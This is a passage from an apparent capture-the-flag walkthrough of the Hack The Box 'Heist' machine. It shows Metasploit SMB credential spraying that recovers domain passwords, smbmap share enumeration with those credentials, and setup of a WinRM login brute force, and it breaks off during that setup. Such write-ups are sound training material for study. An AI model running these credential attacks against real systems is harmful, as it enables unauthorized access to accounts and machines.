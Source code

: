 1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
{% endhighlight %}

From this, we are able to find out that the domain is `SUPPORTDESK`. With these new users, lets update our `user.txt`.
```
Hazard
hazard
rout3r
admin
Chase
Jason
support
Administrator
```

And run the `auxiliary/scanner/smb/smb_login` module again.
{% highlight bash %}
msf5 auxiliary(scanner/smb/smb_login) > set DOMAIN SUPPORTDESK
DOMAIN => SUPPORTDESK
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: 'SUPPORTDESK\Hazard:stealth1agent'
[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: 'SUPPORTDESK\hazard:stealth1agent'
[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: 'SUPPORTDESK\Chase:Q4)sJu\Y8qz*A3?d'
[*] heist.htb:445         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endhighlight %}

Alright! We got another set of credentials! Lets try to access the `smb` shares using `Chase:Q4)sJu\Y8qz*A3?d`!

{% highlight bash %}
$ smbmap -H heist.htb -u Chase -p "Q4)sJu\Y8qz*A3?d" -d SUPPORTDESK
[+] Finding open SMB ports....
[+] User SMB session establishd on heist.htb...
[+] IP: heist.htb:445	Name: heist.htb                                         
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
{% endhighlight %}

Still nothing? I guess the `smb` service really is a dead end :(

If we go back to our reconnaissance results, there is actually one more service on port 5985: `wsman`. After some research, the `wsman` service is the `WinRM` service on the machine. Could we possbily use it to remotely execute commands on the machine? But first, we need to know what credentials we can use by using the `auxiliary/scanner/winrm/winrm_login` module in Metasploit.

{% highlight bash %}
msf5 auxiliary(scanner/smb/smb_login) > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS heist.htb
RHOSTS => heist.htb
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE username.txt
USER_FILE => username.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE password.txt
PASS_FILE => password.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/winrm/winrm_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/winrm/winrm_login) > set DOMAIN SUPPORTDESK
DOMAIN => SUPPORTDESK